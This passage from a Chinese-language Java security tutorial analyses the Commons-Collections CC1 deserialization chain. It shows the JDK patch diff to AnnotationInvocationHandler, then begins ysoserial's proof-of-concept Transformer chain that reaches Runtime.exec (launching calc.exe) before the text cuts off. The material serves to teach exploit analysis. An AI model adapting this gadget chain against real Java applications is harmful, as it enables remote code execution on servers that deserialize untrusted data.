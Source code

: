 ```diff
                             value.getClass() + "[" + value + "]").setMember(
-                                annotationType.members().get(name)));
+                                annotationType.members().get(name));
                 }
             }
+            mv.put(name, value);
+        }
+
+        UnsafeAccessor.setType(this, t);
+        UnsafeAccessor.setMemberValues(this, mv);
+    }
+
+    private static class UnsafeAccessor {
+        private static final sun.misc.Unsafe unsafe;
+        private static final long typeOffset;
+        private static final long memberValuesOffset;
+        static {
+            try {
+                unsafe = sun.misc.Unsafe.getUnsafe();
+                typeOffset = unsafe.objectFieldOffset
+                        (AnnotationInvocationHandler.class.getDeclaredField("type"));
+                memberValuesOffset = unsafe.objectFieldOffset
+                        (AnnotationInvocationHandler.class.getDeclaredField("memberValues"));
+            } catch (Exception ex) {
+                throw new ExceptionInInitializerError(ex);
+            }
+        }
+        static void setType(AnnotationInvocationHandler o,
+                            Class<? extends Annotation> type) {
+            unsafe.putObject(o, typeOffset, type);
+        }
+
+        static void setMemberValues(AnnotationInvocationHandler o,
+                                    Map<String, Object> memberValues) {
+            unsafe.putObject(o, memberValuesOffset, memberValues);
         }
     }
 }
```

可以看到我们本来触发漏洞的memberValue.setValue被删除了，而且注意到`Map<String, Object> mv = new LinkedHashMap<>();/*......*/mv.put(name, value);`不再直接 使用反序列化得到的Map对象，而是新建了一个LinkedHashMap对象，并将原来的键值添加进去，我们精心构造的Map不再执行一些操作，自然也不会触发漏洞。

#### ysoserial的利用链分析

这里先给出ysoserial构造的poc，ysoserial的代码将一些操作封装成了函数，为了方便分析，这里贴出它们展开后的代码

```java
public class YsoCC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
```
